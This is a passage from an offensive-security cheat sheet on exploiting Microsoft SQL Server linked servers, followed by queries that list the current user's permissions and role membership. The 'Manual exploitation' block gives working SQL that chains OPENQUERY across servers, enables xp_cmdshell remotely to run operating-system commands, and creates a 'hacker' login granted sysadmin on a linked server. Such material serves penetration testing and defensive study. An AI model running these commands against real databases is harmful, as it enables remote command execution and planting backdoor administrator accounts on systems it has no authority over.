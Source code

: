 Manual exploitation

```sql
-- find link
select * from master..sysservers

-- execute query through the link
select * from openquery("dcorp-sql1", 'select * from master..sysservers')
select version from openquery("linkedserver", 'select @@version as version');

-- chain multiple openquery
select version from openquery("link1",'select version from openquery("link2","select @@version as version")')

-- execute shell commands
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT LinkedServer
select 1 from openquery("linkedserver",'select 1;exec master..xp_cmdshell "dir c:"')

-- create user and give admin privileges
EXECUTE('EXECUTE(''CREATE LOGIN hacker WITH PASSWORD = ''''P@ssword123.'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
EXECUTE('EXECUTE(''sp_addsrvrolemember ''''hacker'''' , ''''sysadmin'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
```


## MSSQL Privileges

### MSSQL List Permissions

* Listing effective permissions of current user on the server.

    ```sql
    SELECT * FROM fn_my_permissions(NULL, 'SERVER'); 
    ```

* Listing effective permissions of current user on the database.

    ```sql
    SELECT * FROM fn_my_permissions (NULL, 'DATABASE');
    ```

* Listing effective permissions of current user on a view.

    ```sql
    SELECT * FROM fn_my_permissions('Sales.vIndividualCustomer', 'OBJECT') ORDER BY subentity_name, permission_name; 
    ```

* Check if current user is a member of the specified server role.

    ```sql
    -- possible roles: sysadmin, serveradmin, dbcreator, setupadmin, bulkadmin, securityadmin, diskadmin, public, processadmin
    SELECT is_srvrolemember('sysadmin');
    ```
